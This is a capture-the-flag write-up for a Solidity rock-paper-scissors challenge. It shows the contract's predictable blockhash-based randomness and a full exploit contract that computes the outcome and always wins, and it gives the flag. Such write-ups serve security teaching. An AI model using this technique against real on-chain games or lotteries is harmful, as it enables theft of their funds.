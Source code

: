 # Rock Scissor Paper (69 solves) (99 points)

```
Tony found out average salary of smart contract developers could reach millions of dollars. He started to learn about Solidity and deployed his first ever smart contract of epic rock scissor paper game!
```

The goal is to set defeated() to true

```solidity
    function isSolved() external view returns (bool) {
        return rps.defeated();
    }
```

The rps contract is using a pseudo random number generator

```solidity
contract RockPaperScissors {
    bool public defeated;

    enum Hand {
        Rock,
        Paper,
        Scissors
    }

    function randomShape() internal view returns (Hand) {
        return Hand(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number - 1)))) % 3);
    }

    function tryToBeatMe(Hand yours) external payable {
        Hand mine = randomShape();

        if (yours == Hand.Rock && mine == Hand.Scissors) {
            defeated = true;
        } else if (yours == Hand.Paper && mine == Hand.Rock) {
            defeated = true;
        } else if (yours == Hand.Scissors && mine == Hand.Paper) {
            defeated = true;
        }
    }
}
```

We can just use a contract to know the randomShape() it returns at a certain block, then just call it with the Hand that can defeat it

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Challenge.sol";

contract RockPaperScissorsExploit {
    RockPaperScissors public rps;
    Challenge public chal;

    constructor(address _chal) {
        chal = Challenge(_chal);
        rps = chal.rps();
    }

    function randomShape() internal view returns (RockPaperScissors.Hand) {
        return RockPaperScissors.Hand(uint256(keccak256(abi.encodePacked(address(this), blockhash(block.number - 1)))) % 3);
    }

    function solve() public {
        RockPaperScissors.Hand mine = randomShape(); // not "mine" but the contract's
        if (mine == RockPaperScissors.Hand.Scissors) {
            rps.tryToBeatMe(RockPaperScissors.Hand.Rock);
        } else if (mine == RockPaperScissors.Hand.Rock) {
            rps.tryToBeatMe(RockPaperScissors.Hand.Paper);
        } else if (mine == RockPaperScissors.Hand.Paper) {
            rps.tryToBeatMe(RockPaperScissors.Hand.Scissors);
        }
    }
}
```

### Flag

```
blaz{r3t_t0_rsp!}
```